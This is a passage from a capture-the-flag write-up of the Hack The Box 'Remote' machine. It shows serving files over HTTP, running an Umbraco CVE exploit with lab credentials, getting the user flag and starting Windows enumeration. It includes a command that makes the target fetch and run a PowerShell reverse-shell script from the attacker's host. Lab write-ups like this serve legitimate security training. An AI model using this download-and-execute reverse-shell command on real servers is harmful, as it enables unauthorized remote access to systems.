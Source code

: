 ```bash
finlay@kali:~$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Finally, to get the shell use the Umbraco CVE python script from earlier.

```bash
python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "IEX(New-Object Net.WebClient).downloadString('http://LOCAL_IP:8000/powershell_reverse_shell-ps1')"
```
And we can see that we get a connection on our listener:

![user_shell](/assets/img/posts/remote/user_shell.png)

## User.txt

We find the user.txt flag in C:\Users\Public

![user_flag](/assets/img/posts/remote/user_flag.png)

## Enumeration from the inside

We can download winPEAS on to the target from our local machine and run it to get privilege escalation info.

![winpeas](/assets/img/posts/remote/winpeas.png)
